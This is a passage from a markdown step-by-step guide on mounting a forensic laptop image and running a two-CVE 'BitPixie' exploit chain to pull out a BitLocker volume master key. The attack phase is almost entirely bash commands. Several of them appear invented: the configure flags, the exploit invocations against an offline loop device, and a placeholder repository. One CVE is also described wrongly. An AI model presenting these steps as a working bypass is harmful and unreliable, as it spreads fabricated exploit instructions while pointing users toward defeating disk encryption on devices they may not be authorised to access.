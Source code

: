 ### **Step 1.3: Mount Forensic Image for Analysis**
```bash
# Create loop device from forensic image
sudo losetup -P /dev/loop[X] /mnt/external/laptop_forensic_image.dd
# Replace [X] with available loop number (check with: losetup -f)

# Verify partition structure
sudo fdisk -l /dev/loop[X]

# Identify BitLocker partition (will show "-FVE-FS-" signature)
sudo file -s /dev/loop[X]p*  # Check all partitions
# BitLocker partition typically shows: DOS/MBR boot sector, OEM-ID "-FVE-FS-"
```

---

## ⚡ **PHASE 2: CVE EXPLOITATION CHAIN**

### **Step 2.1: BitPixie Framework Setup**
```bash
# Download and configure BitPixie exploitation framework
# (Specific setup varies by implementation)
git clone [BitPixie repository]
cd BitPixie
./configure --target-cves="CVE-2023-21563,CVE-2024-1086"
```

### **Step 2.2: Execute Dual CVE Chain**
```bash
# Primary exploit: CVE-2023-21563 (Windows Ancillary Function Driver)
./bitpixie --exploit CVE-2023-21563 --target /dev/loop[X]p[Y]
# Replace [X] with loop device number, [Y] with BitLocker partition number

# Secondary exploit: CVE-2024-1086 (Linux kernel netfilter)
./bitpixie --exploit CVE-2024-1086 --extract-vmk

# Expected output: VMK extraction successful
# VMK Format: 64-character hexadecimal string
```

### **Step 2.3: VMK Extraction Verification**
```bash
# Save your extracted VMK (will be 64-character hex string):
VMK="[YOUR_EXTRACTED_VMK_HERE]"
# Example format: "1a2b3c4d5e6f7890abcdef1234567890fedcba0987654321abcdef1234567890"

# Convert hex VMK to binary format for tools
echo "$VMK" | xxd -r -p > /tmp/vmk_binary.key

# Verify binary size (should be 32 bytes)
ls -la /tmp/vmk_binary.key
```

---